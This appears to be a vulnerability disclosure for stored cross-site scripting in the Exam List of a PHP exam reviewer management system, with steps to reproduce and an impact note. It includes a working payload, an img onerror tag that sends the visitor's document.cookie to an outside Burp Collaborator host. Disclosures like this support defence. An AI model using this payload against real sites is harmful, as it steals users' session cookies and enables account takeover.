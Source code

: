 **Affected Component**

ERMS v1.0 - 
[https://www.sourcecodester.com/download-code?nid=15160&title=Simple+Exam+Reviewer+Management+System+in+PHP%2FOOP+Free+Source+Code](https://www.sourcecodester.com/download-code?nid=15160&title=Simple+Exam+Reviewer+Management+System+in+PHP%2FOOP+Free+Source+Code)

**Description**

Stored Cross Site Scripting (XSS) via the Exam List

**Steps to reproduce**  

Navigate to Exam List and Click "Create New"

Paste the below payload on Title and Description fields and click save

    <img src=x onerror=(window.location='[https://o1q2amfm97kh8cn0zmbc0qi9k0qqef.burpcollaborator.net/?'+document.cookie](https://o1q2amfm97kh8cn0zmbc0qi9k0qqef.burpcollaborator.net/?%27+document.cookie))> 

 Payload will trigger when a user visits on Exam List
 
**Impact**  

Attackers can masquerade as authorized users via session cookies, allowing them to perform any action allowed by the user account.
